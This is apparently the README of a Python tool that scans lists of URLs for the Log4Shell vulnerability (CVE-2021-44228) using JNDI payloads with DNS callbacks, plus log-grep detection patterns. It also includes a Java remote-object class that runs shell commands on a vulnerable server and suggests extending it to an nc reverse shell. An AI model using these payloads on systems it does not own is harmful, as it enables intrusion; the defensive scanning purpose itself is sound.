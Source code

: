 # log4j-detect

<h4 align="center">Simple Python 3 script to detect the "Log4j" Java library vulnerability (CVE-2021-44228) for a list of URL with multithreading</h4>

This script is based from takito1812/log4j-detect

By [ExodataCyberdefense](https://exodata.fr)

---

The script "log4j-detect.py" developed in Python 3 is responsible for detecting whether a list of URLs are vulnerable to CVE-2021-44228.

To do so, it sends a GET request using threads (higher performance) to each of the URLs in the specified list. The GET request contains a payload that on success returns a DNS request to Burp Collaborator / interactsh. This payload is sent in a test parameter and in the "User-Agent" / "Referer" / "X-Forwarded-For" / "Authentication" headers.
Finally, if a host is vulnerable, an identification number will appear in the subdomain prefix of the Burp Collaborator / interactsh payload and in the output of the script, allowing to know which host has responded via DNS.

It should be noted that this script only handles DNS detection of the vulnerability and does not test remote command execution.

### Running log4j-detect.py

```sh
python3 log4j-detect.py -s <burpCollaborator/interactsh...> [-u [urls]] [-f [urlFileList]] [-t THREADS] [-p PROXY] [--urllib3-warnings|--no-urllib3-warnings]
```

![imagen](https://user-images.githubusercontent.com/56491288/145856295-f85b06da-17f2-4aa7-85fb-e0b75d6e1965.png)

## If you have direct access to the server you can run:

```sh
sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi)://[^\n]+' /var/log
sudo find /var/log -name \*.gz -print0 | xargs -0 zgrep -E -i '\$\{jndi:(ldap[
s]?|rmi)://[^\n]+'

```
To check if someone tried to do a connexion through an ldap server

## If the script detects a vulnerabilty

Here is a sample of code that you can launch to test if your server can be pwned (If it's a windows shell you can just use poweshell syntax)

```java
public class ExportObject implements javax.naming.spi.ObjectFactory {
	public ExportObject() {
		try {
			java.lang.getRuntime().exec("touch ~/pwned");
			java.lang.getRuntime().exec("ls ~");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Something like could let you make reverse shell with the `nc` command
